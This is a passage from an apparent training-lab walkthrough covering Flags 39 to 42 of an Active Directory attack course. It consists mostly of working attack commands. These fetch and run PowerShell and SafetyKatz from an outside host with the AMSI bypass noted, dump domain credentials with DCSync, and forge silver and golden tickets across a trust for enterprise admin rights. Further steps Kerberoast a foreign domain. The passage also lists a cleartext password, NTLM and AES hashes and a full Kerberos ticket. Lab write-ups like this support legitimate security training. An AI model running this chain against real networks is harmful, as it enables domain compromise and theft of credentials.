And now bypass the amsi and run the script in memory


```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.64/adconnect.ps1')
```



if an error happen when launch "ADConnect" use `Set-MpPreference -drtm $true`


<figure><figcaption></figcaption></figure>

MSOL\_16fb75d0227d : 70\&n1{p!Mb7K.C)/USO.a{@m\*%.+^230@KAc\[+sr}iF>Xv{1!{=/\}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf

Now as shell as this user can be created

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

now launch invishell and import Invoke\_mimi


If it's not working try to use a non elevated shell



```
Invoke-Mimi -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
```


<figure><figcaption></figcaption></figure>

Enterprise admin rc4: bc4cf9b751d196c4b6e1a2ba923ef33f

## Flag 39 - From DA to EA with trust key

First we need a DA access to dump the trust key


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


Then copy the Loader on the DC


```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y
```


and then use it to launch SafetyKatz and dump the trust key


```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.64
```



```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch exit"
```


trust key rc4 : _6f9f71933364a163756d51cbcde9b4e1_&#x20;

And now let's forge a ticket with the SID of the enterprise admins group


```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args silver /user:Administrator /ldap /service:krbtgt/TECHCORP.LOCAL /rc4:6f9f71933364a163756d51cbcde9b4e1 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /nowrap
```


<figure><figcaption></figcaption></figure>

and use it to ask for a tgt

<pre data-overflow="wrap"><code><strong>C:\AD\Tools\Rubeus.exe asktgs /service:CIFS/techcorp-dc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt /ticket:doIFyzCCBcegAwIBBaEDAgEWooIEvDCCBLhhggS0MIIEsKADAgEFoRMbEVVTLlRFQ0hDT1JQLkxPQ0FMoiMwIaADAgECoRowGBsGa3JidGd0Gw5URUNIQ09SUC5MT0NBTKOCBG0wggRpoAMCARehAwIBA6KCBFsEggRXGdFUp/HivJhWYK2EvJwht4v8w8/7pVzEdTetAX91NVn2X/vjNxO/3Puo6LO//RSYEXaagw8lZKKHyQgfz1SXprWfsDsLAqiMO6fyfjzZTlOOH/7WnPZYSONxMTQVCxgyxlv4G3hSGIPJTGxIt7wgme9Cx9aX4LOlnPTm9U0uKHDQX/aCChXjkgbu7NkLeJ/9KRWhOOdH0ZmPzHISQyB+PW3fMmJT+cY6NNi/eAYbBwpGJ20axom4NMmyE1Vkv++KYYddEc5gtaVVSMrv5YiKzm1gqYx08PRXG0W1dJ9q8Ne5pP6WWGnAmh+1DqQi0VSkGqLv+Tvhf5LPmWeqonBLYxOq18AVaeBmLFt4AfTl9YwvDMYCRWAPzbG9JU8cDtrSVsPkOanqyD+zT5lYhHXZgclN0ZPxQvmSTqALuQzhVO+oBlAbDnSsUfaPUHcq20yKe/yEUY+E+SG1dB67Wo0XaMEaD60mb2jyt9ljYb9rnmJuxwMCWowtTkL6wDYX3rEUFJ896/0Z7/0yra11V9y1nklm1ZVQyaVyXvsiGQ+6HTG1BPUXbkhoCHtQIQ6EGZCaW4krpg25ooQNltolYESTRbQIZ3ZMv6kw65jZqhLWvVO2trfVdVj1RnfZA0bBFb1KJC7Eo/upRCpB7THgMWOERZo/9ckiOQGxqQv2EPiwViD+vFQs/x0gTxIvrHu/ygxSvYZUkSkqElu/jBoBBEPHfuVjn9rIkcgfbNPt4siAss6gQjIKOlFOFOGs84dA+f984DaW8mOCPUlY6BmSLjVR7aoXgHBFobNWIw21da27hBxXsWAyIZTv6zxtwmKA/eKA5ieJA9mEmLZckXXdcii5HUhyYGj7MuJYaSfFl5+niC1OBe9BE/+PrgQQcwr6CpMsSPrDVjWGKTrYP5PUrdVUP8jGY3Ss8ukgLwan83zZpRm0lckYhrdI3tpEZk1JHfOd0pzEq6uDs6VhzrhdO7yFsG1EcWacnmA0GjCer1QN76qtV6GAxO60UkF4wBIIQUqAOvh7LG/HeaUP6b11FLJ6LS1F1dsjK4gcEtfeABXAoRQdfcxK7WX/K8MjHwhL9C43SXAU4MvkDC8tD4O6gwfF3HQmh/SxUyCkC6mOCBDwDRnQ8Z4cKu6Ypzi+X0Xi+AJfOsCaDMfS2eFEvaHcASfW61KIpAgCUzbIu71zA7uXmOP6qwCQd1NpFIirKysoabIlaDMeae+1FoEv3X9NRn/ledU+BaqhqSarIdTfG+PpNRdXIxZ6liE5xaszEHCqsI8oWbWCxNQKxpXBgQOp/jPuhisVFF53XM6GGku/5XXilsOeShqQYX70MNy6hPMPBbC0gTspuHzxSTt5oYBh3ctk4wdcSCyQ5sU9CgGc4vpKPZoR3PogebyHcxCWeurV0rI+1GOi/FO5kVZ3wp56JAUBcQAznAjKXDYjLqQn5Pl4Gw0qja9iZ7UibKYMskRZ/0kjtb8JOajnBKOB+jCB96ADAgEAooHvBIHsfYHpMIHmoIHjMIHgMIHdoBswGaADAgEXoRIEENZWObe+6zSQi8Q7xPt3E9KhExsRVVMuVEVDSENPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjQwNTAzMTM1MzExWqURGA8yMDI0MDUwMzEzNTMxMVqmERgPMjAyNDA1MDMyMzUzMTFapxEYDzIwMjQwNTEwMTM1MzExWqgTGxFVUy5URUNIQ09SUC5MT0NBTKkjMCGgAwIBAqEaMBgbBmtyYnRndBsOVEVDSENPUlAuTE9DQUw=
</strong></code></pre>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Flag 40/41/42 - Kerberoasting on another domain

Launch invishell and us ad-module to find kerberoastable account


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args golden /user:Administrator /id:500 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:513 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /ptt
```



```powershell
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```



```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args kerberoast /user:storagesvc /simple /domain:eu.local /outfile:C:\AD\Tools\euhashes.txt
```

